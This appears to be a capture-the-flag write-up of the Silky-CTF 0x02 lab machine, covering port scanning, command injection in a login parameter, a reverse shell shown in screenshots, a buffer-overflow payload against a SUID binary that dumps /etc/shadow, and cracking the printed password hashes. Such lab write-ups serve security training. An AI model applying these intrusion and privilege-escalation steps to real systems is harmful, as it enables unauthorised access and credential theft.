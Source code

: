 # Silky-CTF 0x02

## Nmap
````
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-27 17:02 WEST
Nmap scan report for 10.0.2.33
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 eb:74:50:5c:6f:57:04:15:bd:8c:57:ff:eb:a2:9f:58 (RSA)
|   256 97:50:40:64:05:4e:57:44:7d:31:a7:60:84:0a:9d:5c (ECDSA)
|_  256 fe:6e:fa:67:54:96:a7:bd:54:45:10:30:1c:20:c3:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
````

## Port 80
#### Default Apache page

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/02bcf962-fc1e-4fe8-a57c-6513d694080b)


#### Gobuster

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/85e64934-4d15-45cc-af37-6955be9e981b)


#### /admin.php

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/84cd50c0-28ae-48e6-b7d6-aa97120e10af)


After pressing 'login', this form appears. No default credentials. Let's try SQLi. And analyze that image a bit since it seems weird. Steganography maybe?

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d2262e0a-2e1a-439b-ae48-747681a187b9)

Ran a bunch of tools against the image (strings, text editors, hexeditor, etc...) and nothing.

Got command injection on 'username' GET parameter!

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/e70a95d4-3e27-4ac9-b3e0-240e611a996f)

#### Reverse Shell

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d4eabb79-c6f5-48ef-bef4-6096ca226afd)


## Privilege Escalation

There is an interesting file with the SUID bit in our home folder. It appears to be simply catting /etc/shadow, but I'll try running it with Pspy in parallel

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/a758ef7d-b151-4639-9ba8-8f82fe62c36f)

Pspy doesn't show anything, but the program itself has an interesting output

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/8fafa8f7-1bfe-4764-a32a-52b5ff281a88)

Strings is a bit confusing, so I exfiltrated the file to my attacker machine

````
base64 cat_shadow -w0
(copy to clipboard, paste to a file inside my machine)
base64 -d b64Cat_shadow > cat_shadow
````

### Testing the binary

I fired up ghidra but I got nothing especial. I then tried a super long password in order to cause a buffer overflow, and the output on the left finally changed to something, previously it was always 0x0

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/d877b364-026f-4d51-80fe-9ca3b20f5fcc)

So, I know what I have to do... And I found the position of the 4 characters that change the password

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/6363903a-9763-4cf6-982b-4b512a8a9d50)


Sending AAAA in the payload part outputs the following

``0x41414141 != 0x496c5962``

Well, it's hex to ascii. Just have to switch the bytes around...

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fa1c1fb4-4c2c-48ff-903a-1aa5f403382a)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/cbfd53fc-1cb5-49c7-8366-c95fa41ea2a6)

And boom! This is on my system so that's why we got permission denied. Let's try it on the victim

````
www-data@Silky-CTF0x02:/home/silky$ ./cat_shadow 0000000000000000000000000000000000000000000000000000000000000000bYlI0000000
Trying to read /etc/shadow           
Succes      
Printing...
root:$6$L69RL59x$ONQl06MP37LfjyFBGlQ5TYtdDqEZEe0yIZIuTHASQG/dgH3Te0fJII/Wtdbu0PA3D/RTxJURc.Ses60j0GFyF/:18012:0:99999:7:::
daemon:*:18012:0:99999:7:::
bin:*:18012:0:99999:7:::
sys:*:18012:0:99999:7:::
sync:*:18012:0:99999:7:::
games:*:18012:0:99999:7:::
man:*:18012:0:99999:7:::
lp:*:18012:0:99999:7:::
mail:*:18012:0:99999:7:::
news:*:18012:0:99999:7:::
uucp:*:18012:0:99999:7:::
proxy:*:18012:0:99999:7:::
www-data:*:18012:0:99999:7:::
backup:*:18012:0:99999:7:::
list:*:18012:0:99999:7:::
irc:*:18012:0:99999:7:::
gnats:*:18012:0:99999:7:::
nobody:*:18012:0:99999:7:::
systemd-timesync:*:18012:0:99999:7:::
systemd-network:*:18012:0:99999:7:::
systemd-resolve:*:18012:0:99999:7:::
systemd-bus-proxy:*:18012:0:99999:7:::
_apt:*:18012:0:99999:7:::       
dnsmasq:*:18012:0:99999:7:::
avahi-autoipd:*:18012:0:99999:7:::
messagebus:*:18012:0:99999:7:::
usbmux:*:18012:0:99999:7:::
geoclue:*:18012:0:99999:7:::
speech-dispatcher:!:18012:0:99999:7:::
rtkit:*:18012:0:99999:7:::
pulse:*:18012:0:99999:7:::
avahi:*:18012:0:99999:7:::
colord:*:18012:0:99999:7:::
saned:*:18012:0:99999:7:::
Debian-gdm:*:18012:0:99999:7:::
hplip:*:18012:0:99999:7:::
silky:$6$F0T5vQMg$BKnwGPZ17UHvqZLOVFVCUh6CrsZ5Eu8BLT1/uX3h44wtEoDt9qA2dYL04CMUXHw2Km9H.tttNiyaCHwQQ..2T0:18012:0:99999:7:::
mysql:!:18012:0:99999:7:::
sshd:*:18012:0:99999:7:::
````

Let's unshadow and crack this. So I saved the important bits of /etc/shadow and /etc/passwd to my machine

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/fdeed623-9f36-4dc2-b20f-840a38882a3e)

And now we play the waiting game

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/61254f7c-3970-4226-a1d4-4d2ee4a9f7b5)

A few minutes later

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/509b80b2-c1a9-4a5d-83f3-da8b0e8684bb)

![image](https://github.com/BrunoCaseiro/OSWE-Practice/assets/38294180/965711a5-e175-4531-8208-760a556cf98d)


Really fun CTF! But I'm not sure how this relates to the OSWE
